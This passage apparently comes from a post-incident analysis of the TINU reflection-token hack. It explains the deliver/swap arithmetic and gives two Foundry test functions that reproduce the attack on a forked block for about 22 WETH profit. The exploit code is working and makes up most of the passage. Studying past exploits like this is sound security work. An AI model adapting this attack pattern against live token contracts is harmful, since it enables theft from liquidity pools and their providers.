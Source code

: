 Therefore, the `swap` should purchase TINU tokens that are close to the quantity of $rSupply$.

(If you buy more tokens than $rSupply$, according to $(13)$, there will be no profit. Additionally, the `transfer` function will check if the amount is less than `tTotal`, so it will revert.)

The final exploit is as follows.

``` solidity
function testExploit() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);

    deal(address(weth), address(this), 2000 ether);

    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 rAmountOut = rTotal-rExcluded;
    uint256 tinuAmountOut = tinu.tokenFromReflection(rAmountOut) - 0.1*10**9;

    (uint reserve0, uint reserve1, ) = tinu_weth.getReserves();
    uint256 wethAmountIn = getAmountIn(tinuAmountOut, reserve1, reserve0);
    emit log_named_decimal_uint("WETH amountIn", wethAmountIn, weth.decimals());
    weth.transfer(address(tinu_weth), wethAmountIn);

    tinu_weth.swap(
        tinuAmountOut,
        0, 
        address(this),
        ""
    );

    tinu.deliver(tinu.balanceOf(address(this)));

    (reserve0, reserve1, ) = tinu_weth.getReserves();
    uint256 wethAmountOut = getAmountOut(tinu.balanceOf(address(tinu_weth))-reserve0, reserve0, reserve1);
    tinu_weth.swap(0, wethAmountOut, address(this), "");
    emit log_named_decimal_uint("Attack profit:", wethAmountOut - wethAmountIn, weth.decimals());
}
```

For simplicity, let's assume the attacker already owns a large amount of WETH and does not use a flash loan.

In TINU, approximately 800 WETH can be exchanged for nearly $rSupply$ TINU tokens. After delivering all the tokens obtained, one can directly `swap` them for WETH, resulting in a net profit of about 22.1445 WETH, which is approximately 0.004 WETH higher than the original attack. The original attack only used 104.85 WETH for the first purchase, then executed `skim->deliver->swap`. The attacker might have used a method and data obtained through testing or more complex mathematical calculations, which we will not delve into here.

``` solidity
function testSwap() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);
    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 tinuDeliver = tinu.tokenFromReflection(rTotal-rExcluded)-0.1*10**9;

    // uint256 amountOut = 1 ether;
    uint256 amountOut = 22144561460967547974;
    tinu_weth.swap(tinuDeliver, amountOut, address(this), "1");
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(this)), weth.decimals());
}

```